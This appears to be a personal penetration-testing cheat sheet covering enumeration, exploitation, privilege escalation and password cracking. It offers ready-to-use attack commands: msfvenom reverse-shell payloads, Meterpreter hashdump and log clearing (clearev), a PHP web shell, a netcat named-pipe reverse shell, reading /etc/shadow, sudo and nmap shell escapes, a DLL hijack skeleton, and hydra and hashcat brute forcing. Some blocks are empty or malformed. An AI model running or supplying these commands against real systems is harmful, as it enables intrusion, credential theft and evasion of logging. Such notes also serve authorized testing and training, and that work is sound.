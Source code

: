 # Enumeration
## NMAP
```
SSH:
nmap -n -p22 --script ssh-brute \
```
```
HTTP:
nmap --script http-enum targetIP \
nmap -n -p 80 --script -http-grep \
```
```
SMB:
nmap -p 445 --script-os-discovery targetIP
nmap -sV -p 445 --script smb-brute targetIP
nmap -n -p139,445 --script=smb-enum-users --script-args=smbusername="",\
```
## Gobuster
```
gobuster dir --url {{https://example.com/}} --wordlist {{path/to/file}}
gobuster dns --domain {{example.com}} --wordlist {{path/to/file}}
```
## Ffuf
```
ffuf -w {{path/to/wordlist}} -u {{https://target/FUZZ}} -c -v
ffuf -w {{hosts.txt}} -u {{https://example.org}} -H "{{Host: FUZZ}}" -mc {{200}}
ffuf -w {{subdomains.txt}} -u {{https://website.com}} -H "{{Host: FUZZ.website.com}}"
```

## Searching files
```
`findstr /si password *.txt`
```

## Patch Level
```
`wmic qfe get Caption,Description,HotFixID,InstalledOn`
```

## Scheduled Tasks
```
`schtasks /query /fo LIST /v`
```

## Windows Services and Software
```
wmic service list brief| findstr "Running"
sc qc
wmic product get name,version,vendor
```

## Base64
```
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode
```
# Exploitation
## Metasploit
```
MSFVENOM:
msfvenom -l
msfvenom -p {{payload}} --list-options
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=xxxx -f elf > rev_shell.elf
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} -f exe > {{path/to/binary.exe}}
Staged vs Stageless:
windows/x64/meterpreter/reverse_tcp vs. windows/x86/meterpreter_reverse_tcp

```

```
Meterpreter commands:
upload
getuid
PS
migrate
getsystem
hashdump
shell
search
clearev
sysinfo
```
```
CMD commands:
dir
type
```

## Python
```

```

```

```
## netcat
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
stty raw -echo; fg
reset
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```
```

```

## Skeleton DLL Code
```
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Temp\\dll.txt"); # edit this line
        ExitProcess(0);
    }
    return TRUE;
}
```

## PHP
```
`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`
**ex**: /shell.php?cmd=
webshells dir: */usr/share/webshells*
```

## Creating Named Pipes
```
`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
```

## SUDO
```
find . -exec /bin/bash \; -quit
```

## SUID
```
`find / -type f -perm -04000 -ls 2>/dev/null'
```

## NMAP
```
1. TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
nmap --script=$TF

2. sudo nmap --interactive
 nmap> !sh
```

## Unquoted Service Path
```
sc qc unquotedsvc
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe > common.exe

Python3 -m http.server 4444

Get-service -Name unquotedsvc | Restart-Service
```

## AlwaysInstallElevated
```
`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`  
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
```


# Password cracking

```
HASHCAT:
hashcat --hash-type {{hash_type_id}} --attack-mode {{3}} {{hash_value}}
hashcat --hash-type {{hash_type_id}} --attack-mode {{1}} {{hash_value}} {{/path/to/dictionary1.txt}} {{/path/to/dictionary2.txt}}
hashcat --hash-type {{hash_type_id}} --attack-mode {{0}} {{hash_value}} {{/usr/share/wordlists/rockyou.txt}}
hashcat --hash-type {{hash_type_id}} --attack-mode {{3}} --increment {{hash_value}} "{{?a?a?a?a?a?a?a?a}}"
hashcat --show {{hash_value}}
```
```
Hydra:
hydra -l {{username}} -P {{path/to/wordlist.txt}} {{host_ip}} {{ssh}}
hydra -L {{path/to/usernames.txt}} -P {{path/to/wordlist.txt}} -t {{n_tasks}} {{host_ip}} {{ftp}}

```

## Extras






